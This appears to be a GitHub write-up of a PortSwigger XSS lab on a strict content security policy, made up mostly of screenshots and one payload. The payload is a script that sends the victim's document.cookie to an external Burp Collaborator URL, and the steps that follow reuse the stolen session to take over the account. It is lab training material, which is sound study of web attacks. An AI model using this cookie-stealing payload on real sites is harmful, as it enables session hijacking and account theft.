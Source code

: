 ## Welcome, my friend. Today we will start the [31. XSS lab](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/edff2a48-834a-41f5-ba24-3640878a4a95)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/5be0aa2a-f41e-4db4-bf97-7a45c68e4e05)



### So we will using ```Collaborator``` in burp suite:

```
<script>
fetch('https://0st8tp3tooa6kz65vktmbqm8szyqmha6.oastify.com', // this is our url in Collaborator
{  
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

![image](https://github.com/user-attachments/assets/22a5b90e-dc7f-4287-a342-698b99631de4)

### Inside ```Collaborator``` in burp suite:

![image](https://github.com/user-attachments/assets/d69a7a6b-1515-4fb5-8a8e-dc96cb02858f)

### Copy this session and add in your session:

![image](https://github.com/user-attachments/assets/47efbfa1-6ba7-4d9d-8b0f-1db658654376)

![image](https://github.com/user-attachments/assets/b68a0f8d-380e-410a-825b-e4d5ff8e81b6)

-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/005cac22-a8a2-4737-a170-ffc300cd2a7c" >
</p>
